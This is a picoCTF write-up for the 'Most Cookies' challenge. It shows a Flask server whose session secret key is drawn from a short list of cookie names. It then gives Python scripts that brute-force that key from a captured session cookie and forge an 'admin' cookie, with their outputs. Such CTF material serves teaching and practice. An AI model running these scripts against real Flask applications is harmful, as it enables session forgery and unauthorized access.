


# Most Cookies | picoCTF
## Description
Alright, enough of using my own encryption. Flask session cookies should be plenty secure!

## Analysis
We have the following page:


This search form expects us to input valid cookie. I tried to use `test` and got message `That doesn't appear to be a valid cookie.`. Trying `snickerdoodle` gave me the following output ` That is a cookie! Not very special though...`. I was trying to intercept the requests using Burp Suite to find something interesting, but it was not successful. All I had was an encrypted flask cookie, and we had absolutely no idea about `secret_key`. After long trying to find something useful I decided to use some hint from another write-up. When I opened another write-up, I saw that people were referancing some `server.py` file that I did not have (maybe to technical issues or smth), which had the following code:
```python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()
```

## Solution
After seeing this `server.py` code, this CTF became very easy. The first thing that we notice is those lines:
```python
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```
As you can see the server randomly selects entry from `cookie_names` list and uses it as `secret_key`. My first idea was to create a python decoder which will brute-force based on this `cookie_names` list:
```python
import hashlib
from itsdangerous import URLSafeTimedSerializer, BadSignature
from flask.sessions import TaggedJSONSerializer

cookie = "eyJ2ZXJ5X2F1dGgiOiJjaG9jb2xhdGUgY2hpcCJ9.aaG28w.hFfeGd_97rrL-7f4KKZBobqVFOc"

cookie_names = [
    "snickerdoodle", "chocolate chip", "oatmeal raisin",
    "gingersnap", "shortbread", "peanut butter",
    "whoopie pie", "sugar", "molasses", "kiss",
    "biscotti", "butter", "spritz", "snowball",
    "drop", "thumbprint", "pinwheel", "wafer",
    "macaroon", "fortune", "crinkle", "icebox",
    "gingerbread", "tassie", "lebkuchen", "macaron",
    "black and white", "white chocolate macadamia"
]

for secret in cookie_names:
    s = URLSafeTimedSerializer(
        secret_key=secret,
        salt="cookie-session",
        serializer=TaggedJSONSerializer(),
        signer_kwargs={
            "key_derivation": "hmac",
            "digest_method": hashlib.sha1
        }
    )

    try:
        data = s.loads(cookie)
        print(f"[+] Secret key found: {secret}")
        print(f"[+] Decoded session: {data}")
        break
    except BadSignature:
        continue
else:
    print("[-] No valid secret found")
```

This code will use the cookie that you will get after entering `snickerdoodle`->`Storage`->`Cookies`. After that it will treat each entry from `cookie_names` as `secret_key` and will find which entry from `cookie_names` was used to create flask signature.

In my case I got the following output:
```bash
┌──(venv)─(kali㉿kali)-[~/Desktop/flask]
└─$ python3 flask_cracker.py 
[+] Secret key found: oatmeal raisin
[+] Decoded session: {'very_auth': 'snickerdoodle'}
```

After finding the `secret_key` we need to create a new flask cookie and set it to `admin`. I created a new python code for this purpose:
```python
import hashlib
from itsdangerous import URLSafeTimedSerializer
from flask.sessions import TaggedJSONSerializer

secret = "oatmeal raisin"

serializer = URLSafeTimedSerializer(
    secret_key=secret,
    salt="cookie-session",
    serializer=TaggedJSONSerializer(),
    signer_kwargs={
        "key_derivation": "hmac",
        "digest_method": hashlib.sha1
    }
)

# Forge new session
new_session = {
    "very_auth": "admin"
}

forged_cookie = serializer.dumps(new_session)

print("[+] Forged admin cookie:")
print(forged_cookie)
```

This code will use the `secret_key` we found and will create a new flask cookie with `admin`. I got the following result:
```bash
┌──(venv)─(kali㉿kali)-[~/Desktop/flask]
└─$ python3 flask_creator.py 
[+] Forged admin cookie:
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aaG-sA.U8HoFWIWvrh8wsy42-STlTq3XD8
```

## Answer
Now after crafting new `admin` cookie all we have to do is to change the cookie in `Storage`->`Cookies` by double tapping the cookie value, entering the newly created cookie, and refreshing the page:

